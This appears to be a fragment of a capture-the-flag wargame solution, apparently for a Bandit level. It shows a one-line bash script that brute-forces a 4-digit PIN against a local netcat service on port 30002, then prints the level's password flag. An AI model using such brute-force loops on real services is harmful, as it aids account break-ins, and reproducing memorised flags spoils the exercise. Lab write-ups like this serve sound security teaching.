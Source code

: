 `bandit-24-conn.sh`
```bash
seq -f "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ %04g" 0 9999 | nc localhost 30002 | grep -v Wrong
```
**Flag**: `uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG`